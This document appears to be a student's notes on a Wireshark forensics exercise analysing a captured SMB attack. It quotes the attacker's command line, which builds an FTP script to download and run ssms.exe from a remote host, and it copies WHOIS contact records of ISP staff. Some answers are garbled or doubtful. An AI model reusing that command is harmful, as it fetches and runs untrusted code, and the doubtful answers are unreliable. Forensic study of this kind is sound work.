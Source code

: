 our second task is to analyse a suspicious piece of network traffic captured in the following .pcap file. To visualize it you should use Wireshark, a network protocol analyzer, and answer the questions below to discover what suspicious activity lie within.
WireShark is a network packet analizer.


    Which systems (i.e. IP addresses) are involved?
    -> statistics -> IPv4 statistics -> source and destination adresses
98.114.205.102 | cisco | windows 2000
192.150.11.111 |supermic | windows 5.1

    What can you find out about the attacking host (e.g., where is it located)?
attacking host : 98.114.205.102 
because he's initiating the conversations (3-way handshake)
 check ip adress information @ p.e. www.who.is
geolocalisation ipinfo.io
Philadeplhia, Pennsylvania, U.S.A


 OrgName:       Verizon Business
OrgId:          MCICS
Address:        22001 Loudoun County Pkwy
City:           Ashburn
StateProv:      VA
PostalCode:     20147
Country:        US

OrgTechHandle: SWIPP9-ARIN
OrgTechName:   SWIPPER
OrgTechPhone:  +1-800-900-0241
OrgTechEmail:  stephen.r.middleton@verizon.com
OrgTechRef:    https://rdap.arin.net/registry/entity/SWIPP9-ARIN

OrgRoutingHandle: JEYAK-ARIN
OrgRoutingName:   Jeyakumar, Jebaraj
OrgRoutingPhone:  +1-919-378-7285
OrgRoutingEmail:  jebaraj.kennet@verizon.com
OrgRoutingRef:    https://rdap.arin.net/registry/entity/JEYAK-ARI

    How many TCP sessions are contained in the dump file?

    right-mouse click
    tcp stream

    
    5

    enter in filter tcp.flags.syn==1 or (tcp.flags.syn==1 and tcp.flags.ack==1)
    -> statistics -> conversations -> limit to display filter

    How long did it take to perform the attack?
view option for time -> time view display format
or
statistics -> capture file properties

= 16 seconds

    Which operating system was targeted by the attack? And which service? Which vulnerability?
    looking for the TTL (time to live)
192.150.11.111 | windows 5.1 | adobe - trough phonecall

    Can you sketch an overview of the general actions performed by the attacker? 
    tcp stream 
    
    Which are the protocols involved? What can you tell about the payload?
    SMB-protocol
    echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe

payload = initiates the attack - what needs to be sent in order to attack the victim

SMB = The Server Message Block (SMB) protocol is a network file sharing protocol that allows applications on a computer to read and write to files and to request services from server programs in a computer network. The SMB protocol can be used on top of its TCP/IP protocol or other network protocols.

The SMB protocol enables applications and their users to access files on remote servers, as well as connect to other resources, including printers, mailslots and named pipes. SMB provides client applications with a secure and controlled method for opening, reading, moving, creating and updating files on remote servers.

The IP address of a device mainly helps in identifying the connection of a network (using which the device is connecting to the network). The MAC Address, on the other hand, ensures the computer device's physical location. It helps us to identify a given device on the available network uniquely.

What can a MAC address tell you?
The MAC address (short for media access control address) is the worldwide unique hardware address of a single network adapter. The physical address is used to identify a device in computer networks. Since MAC addresses are assigned directly by the hardware manufacturer, they are also referred to as hardware addresses.

Wireshark is a free and open-source packet analyzer. It is used for network troubleshooting, analysis, software, and communications protocol development. 

Wireshark has quite an extensive application or use. Here are a few examples of what people use Wireshark for:

    Network administrators use it to troubleshoot network problems
    Network security engineers use it to examine security problems
    Developers use it to debug protocol implementations
    Others use it to learn network protocol internals